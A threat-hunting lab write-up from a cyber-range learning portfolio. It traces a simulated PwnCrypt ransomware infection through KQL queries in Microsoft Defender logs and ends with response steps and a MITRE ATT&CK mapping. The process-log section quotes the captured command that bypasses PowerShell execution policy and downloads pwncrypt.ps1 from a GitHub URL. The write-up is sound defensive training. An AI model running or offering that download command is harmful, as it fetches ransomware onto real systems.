


# Lab notes - Timeline Summary and Findings

## Scenario

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.
The security program at the org is still immature and even lacks user training. It’s possible the newly discovered ransomware has made its way onto the corporate network. The hunt can be initiated based on the known IoCs (*.pwncrypt.* files)

___

## Investigation - DeviceFileEvents

I searched for any files that were encrypted by the PwnCrypt ransomware by looking at logs that contained “.pwncrypt”. I found some logs that shows a PowerShell script running and shows the encrypted files’ folderpath. This suggests that the VM (windows-target-1) has been infected with the ransomware. From the logs, it looks like the encrypted files are created on the desktop, and renamed in the temp folders.

```kql
let VMname = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMname
| where FolderPath contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, FolderPath, ActionType, InitiatingProcessCommandLine
```


____

## Investigation - DeviceProcessEvents

I cross-referenced these findings around the same time in the DeviceProcessEvents logs. I found both cmd and powershell scripts being run. The results in the ProcessCommandLine shows that the script bypasses the execution policy, downloads the code for PwnCrypt from a URL via Invoke-WebRequest, and outputs the file as C:\programdata\pwncrypt.ps1.
```
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

```powershell
powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

```kql
// 2025-06-10T16:13:46.9449819Z
let VMname = "windows-target-1";
let specificTime = datetime(2025-06-10T16:13:46.9449819Z);
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where ProcessCommandLine contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine
```



____

## Response:
As a result of these findings, the device was immediately isolated. I created a detection rule to find other devices that may have been infected with the PwnCrypt ransomware, and isolated those devices as well. I immediately relayed this information to the CISO, with all the relevant information at this point in time. Upon waiting for the response of the CISO, I continued to document all the infected systems on what was encrypted, and how many systems and devices were compromised. Due to our security program being immature, we will need assistance with the investigation of the encrypted files and determine how to remediate the encrypted files.  

____

## Improvements:
Due to the organisation’s immature security program, this case should be used to highlight the importance of security within the organisation’s systems and network. Furthermore, there is a strong and urgent need to educate employees on security threats. Furthermore, as a temporary control, more investigations on other known malware and ransomware should be conducted and detection alerts should be implemented until the organisation can harden the systems.

____

## MITRE ATT&CK Framework TTPs

| **Tactic**          | **Technique ID** | **Technique Name**                                       | **Description**                                                             |
| ------------------- | ---------------- | -------------------------------------------------------- | --------------------------------------------------------------------------- |
| Execution           | T1059.001        | Command and Scripting Interpreter: PowerShell            | Uses PowerShell with `-ExecutionPolicy Bypass`.                             |
| Execution           | T1059.003        | Command and Scripting Interpreter: Windows Command Shell | Uses `cmd.exe` to initiate PowerShell payload.                              |
| Defense Evasion     | T1562.001        | Disable or Modify Tools: Security Software Discovery     | Bypasses execution policy, evades traditional security tooling.             |
| Collection          | T1119            | Automated Collection                                     | Automatically encrypts files from known directories.                        |
| Impact              | T1486            | Data Encrypted for Impact                                | Encrypted data using AES-256; filenames changed with `.pwncrypt` extension. |
| Command and Control | T1105            | Ingress Tool Transfer                                    | Payload delivered via `Invoke-WebRequest` from external GitHub URL.         

----

## Notes

* This incident has reinforced the importance of proactive threat hunting, user education, and modular detection techniques using tools like KQL and Microsoft Defender for Endpoint.
* Screenshots and KQL outputs have been archived locally.
* This report is part of my cybersecurity learning portfolio from Josh Madakor's Cyber Range.
